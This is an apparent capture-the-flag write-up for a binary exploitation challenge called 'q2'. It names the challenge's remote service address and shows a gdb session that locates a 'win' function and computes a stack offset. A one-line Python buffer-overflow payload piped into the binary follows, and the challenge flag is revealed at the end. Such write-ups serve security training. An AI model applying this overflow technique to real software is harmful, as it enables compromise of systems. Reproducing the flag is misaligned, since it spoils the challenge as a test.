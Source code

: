 #### Challenge:

You don't need eip control for every pwn. [q2](./q2 ':ignore') Service : `nc 68.183.158.95 8990`

---

#### Solution:

![disassembly.png](./disassembly.png ':ignore')

```console
(gdb) print win
$2 = {<text variable, no debug info>} 0x400831 <win>
(gdb) b *0x004009a2
(gdb) r
(gdb) x/x $rax
0x7fffffffda20:	0x00000000
(gdb) x/x $rbp-0x40
0x7fffffffda10:	0x00400817
(gdb) p ($rbp-0x40) - $rax
$7 = (void *) 0xfffffffffffffff0
(gdb) x/8x $rbp-0x50
0x7fffffffda00:	0x00400831	0x41414141	0x41414141	0xfffffffe
0x7fffffffda10:	0x00400800	0x00000000	0x00400a6d	0x00000000
```

```python
# hex( ( $rbp-0x40 - $rax & 0xffffffffffffffff ) >> 3 & 0xffffffffffffffff )
hex( ( 0x7fffffffda10 - 0x7fffffffda20 & 0xffffffffffffffff ) >> 3 & 0xffffffffffffffff )
```

```bash
python -c "import struct; print struct.pack('<I', 0x400831) + 'A' * 8 + struct.pack('<I',0xFFFFFFFE)" | ./q2
```

---

<details><summary>FLAG:</summary>

```
d4rk{B0fs_4r3_3zzzz}c0de
```

</details>